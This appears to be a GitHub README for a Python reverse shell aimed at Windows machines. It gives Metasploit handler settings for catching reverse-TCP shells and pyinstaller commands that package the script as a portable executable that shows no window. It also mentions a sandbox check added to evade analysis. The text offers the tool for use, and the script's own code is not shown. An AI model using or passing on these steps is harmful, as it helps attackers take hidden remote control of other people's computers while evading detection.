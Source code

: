 # Python Reverse Shell For Windows
Reverse Shell written in Python3 - Modified version of trackmastersteve/shell

You can take advantage of post exploitation modules in Metasploit by using:
exploit/multi/handler 
set PAYLOAD linux/shell_reverse_tcp 
            windows/shell_reverse_tcp 
            etc. 

Modified for a less fragile shell and a check for sandbox

To use on Windows, create an executable using pyinstaller

python -m pip install pyinstaller
pyinstaller -wF ./reverse_shell.py

-w removes pop up windows
-F outputs a portable .exe file in the ./dist/ folder
